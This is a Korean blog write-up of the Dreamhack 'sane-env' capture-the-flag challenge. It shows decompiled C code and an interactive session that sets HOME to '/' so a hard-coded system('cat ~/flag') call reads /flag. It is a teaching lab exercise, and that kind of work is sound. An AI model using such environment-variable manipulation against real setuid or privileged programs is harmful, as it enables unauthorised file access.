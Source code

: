 ```yaml
---
layout: post
title: "[Dreamhack] sane-env"
date: 2025-06-10 12:05 +0900
category: ['Syshack']
tag: ['system', 'dreamhack', 'hacking', 'pwn', 'pwnable', '드림핵', '보안', '시스템', '시스템해킹', '포너블', '해킹']
image: /assets/img/post/sane-env/image0.png
---
```


> **Dreamhack Syshack Lv.1**

## P1. 문제분석

이번 문제는 바이너리만 제공한다. 이를 실행해 살펴본 후 ida로 열어보자.

### P1-1. 동작 파악

WSL에서 문제의 바이너리를 실행해보자.

```bash
# 문제 폴더로 이동 후
$ ./sane-env
```
![](/assets/img/post/sane-env/image1.png)

1~4까지의 입력을 받는다. 이외의 입력을 받으면 어떻게 될까?

![](/assets/img/post/sane-env/image2.png)

이외의 입력은 받지 않는다.

1, 2번 입력은 환경 변수를 변경하는 기능으로 추측되고, 3번 입력은 `system()`함수에 어떤 명령어를 넣어서 실행하는 것으로 보인다.

## P1-2. 디버깅

ida를 활용해 디스어셈블을 시도해보자.

```c
        case 1:
          do
            v6 = getchar();
          while ( v6 != 10 && v6 != -1 );
          printf("Environment variable name: ");
          fgets(s, 256, stdin);
          if ( s[strlen(s) - 1] == 10 )
            s[strlen(s) - 1] = 0;
          printf("Environment variable value: ");
          fgets(value, 256, stdin);
          if ( value[strlen(value) - 1] == 10 )
            value[strlen(value) - 1] = 0;
          if ( setenv(s, value, 1) == -1 )
          {
            puts("setenv() failed!");
            exit(-1);
          }
          puts("Environment variable set!");
          break;
        case 2:
          do
            v6 = getchar();
          while ( v6 != 10 && v6 != -1 );
          printf("Environment variable name: ");
          fgets(s, 256, stdin);
          if ( s[strlen(s) - 1] == 10 )
            s[strlen(s) - 1] = 0;
          if ( unsetenv(s) == -1 )
          {
            puts("unsetenv() failed!");
            exit(-1);
          }
          puts("Environment variable cleared!");
          break;
```

1번과 2번 입력이다.

`setenv()`함수와 `unsetenv()`함수를 이용해 환경 변수 설정과 해제를 수행하고 있다.

```c
        case 3:
          size = confstr(0, 0LL, 0LL);
          if ( !size )
          {
            puts("_CS_PATH invalid!");
            exit(-1);
          }
          buf = (char *)malloc(size);
          if ( !buf )
          {
            puts("malloc() failed!");
            exit(-1);
          }
          if ( !confstr(0, buf, size) )
          {
            puts("confstr() failed!");
            exit(-1);
          }
          if ( setenv("PATH", buf, 1) == -1 )
          {
            puts("PATH setup failed!");
            exit(-1);
          }
          free(buf);
          if ( system("cat ~/flag") == -1 )
          {
            puts("system() failed!");
            exit(-1);
          }
          puts("system() worked!");
          break;
```

3번 입력이다.

여러 예외 상황이 적용되어 있으나 결국 기능은 `system("cat ~/flag")` 를 실행하는 것이다.

### P1-3. 분석 결과

리눅스 환경변수에는 `USER` 등 여러가지가 있으나 `HOME`이라는 환경변수가 있다. 이는 사용자의 홈 디렉토리를 추적하기 위해 사용되는 환경변수이고 커맨드 상에서는 `~` 로 표현된다.

3번 기능은 사용자의 홈 디렉토리에 있는 `flag`를 읽는 함수 임으로 홈 디렉토리를 루트 디렉토리 즉, `/` 로 설정해준다면 `~/flag`는 `/home/$USER/flag`가 되는 것이 아닌 `/flag`가 된다.

## P2. Exploit

우선 shell에서 바이너리를 실행한다.

```bash
# 문제 폴더로 이동 후
$ ./sane-env
```

1번 기능을 통해 환경변수 `HOME`을 `/`로 변경한다. 이후 3번 입력을 수행한다.

```bash
[Sane Env System]

operations:
1. set environment variable
2. unset environment variable
3. run hard-coded system()
4. exit
> 1
Environment variable name: HOME
Environment variable value: /
Environment variable set!

operations:
1. set environment variable
2. unset environment variable
3. run hard-coded system()
4. exit
> 3
cat: //flag: No such file or directory
system() worked!
```

본인의 시스템에선 루트 디렉토리에 `flag`라는 파일이 존재하지 않으니 읽어들이지 못한다.

이제 문제 서버에서 해보자.

![](/assets/img/post/sane-env/image3.png)

**Clear!**